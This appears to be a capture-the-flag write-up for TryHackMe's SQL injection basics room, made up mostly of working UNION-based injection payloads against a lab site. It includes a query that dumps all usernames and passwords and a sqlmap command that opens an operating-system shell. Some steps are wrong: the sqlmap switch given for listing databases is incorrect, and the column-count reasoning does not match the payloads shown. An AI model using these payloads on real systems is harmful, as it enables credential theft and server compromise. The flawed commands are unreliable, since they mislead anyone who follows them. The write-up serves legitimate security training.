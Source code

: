 # SQL Injection
Learn to perform SQLi attacks in the most effective way!  
https://tryhackme.com/room/sqlibasics  
  
****

# [Task 1- 6] Educational

No answers needed.
  
# [Task 7] Unit 7 - Union Based SQLi

**#1 How many columns are being returned by the query?**  
  
From the lesson we learned to add 'NULL' until we no longer got an error. I stopped getting an error at 6 meaning there were 5 columns.  
  
```sql
' UNION SELECT NULL -- //
```
```sql
' UNION SELECT NULL,NULL -- //
```
```sql
' UNION SELECT NULL,NULL,NULL -- //
```
```sql
' UNION SELECT NULL,NULL,NULL,NULL -- //
```
```sql
' UNION SELECT NULL,NULL,NULL,NULL,NULL -- //
```

Answer: 5

**#2 How many of these columns can accept strings? ('a')**  
  
From the lesson we learned to to replace NULL with a string if we didn't get an error than the field is a string.  
```sql
' UNION SELECT 'a',NULL,NULL,NULL,NULL -- //
```
```sql
' UNION SELECT 'a','a',NULL,NULL,NULL -- //
```
```sql
' UNION SELECT 'a','a','a',NULL,NULL -- //
```
```sql
' UNION SELECT 'a','a','a','a',NULL -- //
```
```sql
' UNION SELECT 'a','a','a','a','a' -- //
```

Answer: 5

**#3 What's the database name?**  
  
From the lesson we learned a few things that may be interesting one of them was 'database()' so i tried that. I noticed even though there were 5 columns there were only 4 on the webpage. Through trial and error i fond out that the first column didnt show up on the webpage.  
```sql
' UNION SELECT NULL,database(),NULL,NULL,NULL -- //
```

Answer: sqlitraining

**#4 (Optional) Dump all users and passwords**

I got lucky and guessed the database name was users my first try.

```sql
' UNION SELECT * FROM users -- //
```

# [Task 8] Unit 8 - Automating exploitation
 Install sqlmap by following the lesson. 

**#1 How would you get an OS shell on website "sqli.thm/login.php"? (URL switch comes first)**

 ```bash
 sqlmap -u "sqli.thm/login.php" --os-shell
 ```

**#2 What about listing all databases on the same website? (URL switch comes first)**

```bash
sqlmap -u "sqli.thm/login.php" --dbms
```
